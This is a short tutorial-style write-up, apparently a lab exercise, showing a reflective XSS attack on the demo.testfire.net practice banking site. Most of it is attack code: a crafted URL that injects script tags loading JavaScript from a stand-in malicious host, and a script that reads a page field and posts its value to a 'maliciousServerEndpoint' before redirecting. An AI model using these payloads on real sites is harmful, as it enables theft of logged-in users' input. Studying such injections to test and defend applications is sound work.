 # Reflective XSS

## How Logged In User Should be Targeted

The logged in user already has a valid session with the Wep Application, hence, the user can execute the internal URLs or links without any consent to login. Therefore any URL posted on the browser by the URL can take him directly within the application, due to a still having a valid session.


## Victim Web Page or Link

We will be using the link `http://demo.testfire.net/bank/queryxpath.jsp` to conduct the refective XSS. It is perfect candidate for the attack because it accepts the parameter in form of key-value pair with the name `query`, and anything after `query=` is considered as the value of the repective parameter key name.


## Malicious URL

The Malicious URL to send the detial to the designated server looks like below:

`https://demo.testfire.net/bank/queryxpath.jsp?query=%22%20placeholder=%22Put%20your%20query%20here%22%20/%3E%20%3Cscript%20src=%22https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js%22%3E%3C/script%3E%20%3Cscript%20src=%22https://maliciousScriptURL/maliciousScript.js%22%3E%3C/script%3E%20%3Cinput%20value=%22Query%22%20type=%22button%22%20%20onclick=%22maliciousScript()%22%20/%3E%20%3Cinput%20type=%22hidden%22%20value=`

The simple formatting of the above Malicious URL is given below:
```
http://demo.testfire.net/bank/queryxpath.jsp?query=" placeholder="Put your query here" />
 <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
 <script src="https://maliciousScriptURL/maliciousScript.js"></script>


<input value="Query" type="button"  onclick="maliciousScript()" /> 

<input type="hidden" value=
```

## Malicious Script

The Malicious Script loaded fetch via link `https://maliciousScriptURL/maliciousScript.js` by the web page upon infected by refective XSS has below source code:

```
function maliciousScript() {
	var val = document.getElementById("query").value;
	$.post("maliciousServerEndpoint",
	  {
		"feedbackText": val
	  });
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
```

I wasn't able to inject the below code section within the URL due to the character encoding limitation.
```
<script>
function maliciousScript() {
	var val = document.getElementById("query").value;
	$.post("maliciousServerEndpoint",
	  {
		"feedbackText": val
	  });
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
</script>
```

Malicious function with the name `maliciousScript` reads the value from textbox and send the input value to the `maliciousServerEndpoint`.

Screenshot:
![Screenshot](img/Reflective_XSS_Source_Code.png)
